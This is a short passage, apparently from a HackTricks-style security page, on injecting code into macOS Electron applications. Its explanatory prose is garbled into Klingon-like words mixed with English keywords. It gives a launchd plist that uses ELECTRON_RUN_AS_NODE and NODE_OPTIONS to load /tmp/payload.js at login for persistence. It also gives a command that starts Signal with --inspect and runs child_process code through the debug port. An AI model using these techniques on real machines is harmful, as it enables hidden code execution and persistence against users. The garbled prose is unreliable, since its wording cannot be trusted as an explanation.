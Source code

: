 **jIyaj** **env variable** **plist** **laH** **Injection** **vaj** **persistence** **laH** **keys** **'ej** **abuse** **vaj**:
```xml
<dict>
<key>EnvironmentVariables</key>
<dict>
<key>ELECTRON_RUN_AS_NODE</key>
<string>true</string>
<key>NODE_OPTIONS</key>
<string>--require /tmp/payload.js</string>
</dict>
<key>Label</key>
<string>com.hacktricks.hideme</string>
<key>RunAtLoad</key>
<true/>
</dict>
```
## RCE with inspecting

[**'Iv**](https://medium.com/@metnew/why-electron-apps-cant-store-your-secrets-confidentially-inspect-option-a49950d6d51f) **'Iw Electron application** **flags** **`--inspect`**, **`--inspect-brk`** **`--remote-debugging-port`** **'e'** **debug port** **'oH** **connect** (for example **Chrome** `chrome://inspect`) **inject code** **'ej** **launch** **processes**.\
**Example**:

{% code overflow="wrap" %}
```bash
/Applications/Signal.app/Contents/MacOS/Signal --inspect=9229
# Connect to it using chrome://inspect and execute a calculator with:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
{% endcode %}

{% hint style="danger" %}
Qa'pla'! QaStaHvIS **`EnableNodeCliInspectArguments`** fuse vItlhutlh. 'op **node parameters** (vay' `--inspect`) 'e' vItlhutlh 'ej 'op **env variable** **`ELECTRON_RUN_AS_NODE`** vItlhutlh, 'ach 'op **`RunAsNode`** fuse vItlhutlh.
